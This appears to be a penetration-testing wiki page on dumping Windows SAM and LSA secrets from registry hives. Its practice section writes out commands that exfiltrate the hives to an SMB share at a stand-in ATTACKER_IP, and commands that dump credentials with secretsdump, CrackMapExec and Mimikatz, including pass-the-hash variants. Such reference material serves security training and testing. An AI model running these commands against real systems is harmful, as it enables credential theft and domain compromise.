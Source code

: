 ```yaml
---
description: MITRE ATT&CK™ Sub-techniques T1003.002, T1003.004 and T1003.005
---
```


# SAM & LSA secrets

## Theory

In Windows environments, passwords are stored in a hashed format in registry hives like SAM (Security Account Manager) and SECURITY.

| Hive     | Details                                                        | Format or credential material                                                                                                                                                              |
| -------- | -------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| SAM      | stores locally cached credentials (referred to as SAM secrets) | LM or NT hashes                                                                                                                                                                            |
| SECURITY | stores domain cached credentials (referred to as LSA secrets)  | <p>Plaintext passwords</p><p>LM or NT hashes</p><p>Kerberos keys (DES, AES)</p><p>Domain Cached Credentials (DCC1 and DCC2)</p><p>Security Questions (<code>L$_SQSA_&#x3C;SID></code>)</p> |
| SYSTEM   | contains enough info to decrypt SAM secrets and LSA secrets    | N/A                                                                                                                                                                                        |

SAM and LSA secrets can be dumped either locally or remotely from the mounted registry hives. These secrets can also be extracted offline from the exported hives. Once the secrets are extracted, they can be used for various attacks, depending on the credential format.

| Credential material                      | Subsequent attacks                                                                                                                                                                                            |
| ---------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Plaintext passwords                      | [credential spraying](../bruteforcing/password-spraying.md), [stuffing](../bruteforcing/stuffing.md), [shuffling](../credential-shuffling.md) or [silver tickets](../../kerberos/forged-tickets.md)           |
| LM and NT hashes                         | [credential spraying](../bruteforcing/password-spraying.md), [stuffing](../bruteforcing/stuffing.md), [shuffling](../credential-shuffling.md), [cracking](../cracking.md), [pass-the-hash](../../ntlm/pth.md) |
| Kerberos keys (RC4, i.e. == NT hash)     | [credential cracking](../cracking.md), [overpass-the-hash](../../kerberos/ptk.md) or [silver tickets](../../kerberos/forged-tickets.md)                                                                       |
| Kerberos keys (DES, AES)                 | [credential cracking](../cracking.md), [pass-the-key](../../kerberos/ptk.md) or [silver tickets](../../kerberos/forged-tickets.md)                                                                            |
| Domain Cached Credentials (DCC1 or DCC2) | [credential cracking](../cracking.md)                                                                                                                                                                         |

## Practice

### Exfiltration

{% tabs %}
{% tab title="UNIX-like" %}
[Impacket](https://github.com/SecureAuthCorp/impacket)'s reg.py (Python) script can also be used to do the same operation remotely for a UNIX-like machine. For instance, this can be used to easily escalate from a [Backup Operator](../../domain-settings/builtin-groups.md) member to a Domain Admin by dumping a Domain Controller's secrets and use them for a [DCSync](dcsync.md). _(At the time of writing, 17th Feb. 2022,_ [_the pull request_](https://github.com/SecureAuthCorp/impacket/pull/1257) _is pending)._

{% hint style="success" %}
The attacker can start an SMB server, and indicate an UNC path including his IP address so that the hives get exported directly to his server.
{% endhint %}

```bash
# start an SMB share
smbserver.py -smb2support "someshare" "./"

# save each hive manually
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SAM' -o '\\ATTACKER_IPs\someshare'
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SYSTEM' -o '\\ATTACKER_IP\someshare'
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SECURITY' -o '\\ATTACKER_IP\someshare'

# backup all SAM, SYSTEM and SECURITY hives at once
reg.py "domain"/"user":"password"@"target" backup -o '\\ATTACKER_IP\someshare'
```
{% endtab %}

{% tab title="Live Windows" %}
When the Windows operating system is running, the hives are in use and mounted. The command-line tool named `reg` can be used to export them.

```bash
reg save HKLM\SAM "C:\Windows\Temp\sam.save"
reg save HKLM\SECURITY "C:\Windows\Temp\security.save"
reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
```

This operation can be conducted remotely with [BackupOperatoToDA](https://github.com/mpgn/BackupOperatorToDA) (C++).

{% hint style="success" %}
The attacker can start an SMB server, and indicate an UNC path including his IP address so that the hives get exported directly to his server.
{% endhint %}

```bash
BackupOperatorToDA.exe -d "domain" -u "user" -p "password" -t "target" -o "\\ATTACKER_IP\someshare"
```

{% hint style="info" %}
Alternatively, from a live Windows machine, the hive files can also be exfiltrated using [Volume Shadow Copy](ntds.md#volume-shadow-copy-vssadmin) like demonstrated for an NTDS export.
{% endhint %}
{% endtab %}

{% tab title="Down Windows" %}
When Windows is not running, the hives are not mounted and they can be copied just like any other file. This can be operated when mounting the hard drive from another OS (e.g. when booting the computer on another operating system). The hive files can be found at the following locations.

```bash
\system32\config\sam
\system32\config\security
\system32\config\system
```
{% endtab %}
{% endtabs %}

### Secrets dump

Here are some examples and tools that can be used for local/remote/offline dumping.

{% tabs %}
{% tab title="secretsdump" %}
[Impacket](https://github.com/SecureAuthCorp/impacket)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python) can be used to dump SAM and LSA secrets, either remotely, or from local files. For remote dumping, several authentication methods can be used like [pass-the-hash](../../ntlm/pth.md) (LM/NTLM), or [pass-the-ticket](../../kerberos/ptt.md) (Kerberos).

```bash
# Remote dumping of SAM & LSA secrets
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-hash)
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-ticket)
secretsdump.py -k 'DOMAIN/USER@TARGET'

# Offline dumping of LSA secrets from exported hives
secretsdump.py -security '/path/to/security.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM & LSA secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
```
{% endtab %}

{% tab title="CrackMapExec" %}
[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python) can be used to remotely dump SAM and LSA secrets, on multiple hosts. It offers several authentication methods like [pass-the-hash](../../ntlm/pth.md) (NTLM), or [pass-the-ticket](../../kerberos/ptt.md) (Kerberos)

```bash
# Remote dumping of SAM/LSA secrets
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (local user authentication)
crackmapexec smb $TARGETS --local-auth -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-hash)
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-ticket)
crackmapexec smb $TARGETS --kerberos --sam/--lsa
```
{% endtab %}

{% tab title="Mimikatz" %}
[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be used locally to extract credentials from `SAM` and `SECURITY` registry hives (and `SYSTEM` for the encryption keys), or offline with hive dumps.

```bash
# Local dumping of SAM secrets on the target
lsadump::sam

# Offline dumping of SAM secrets from exported hives
lsadump::sam /sam:'C:\path\to\sam.save' /system:'C:\path\to\system.save'

# Local dumping of LSA secrets on the target
lsadump::secrets

# Offline dumping LSA secrets from exported hives
lsadump::secrets /security:'C:\path\to\security.save' /system:'C:\path\to\system.save'
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
**Nota bene** secretsdump and crackmapexec both extract security questions, if any, from the LSA. They are json formatted, UTF-16-LE encoded, and hex encoded on top of that.
{% endhint %}

## References

{% embed url="http://moyix.blogspot.com/2008/02/syskey-and-sam.html" %}

{% embed url="http://moyix.blogspot.com/2008/02/decrypting-lsa-secrets.html" %}

{% embed url="https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b" %}

{% embed url="https://webstersprodigy.net/2014/02/03/mscash-hash-primer-for-pentesters/" %}
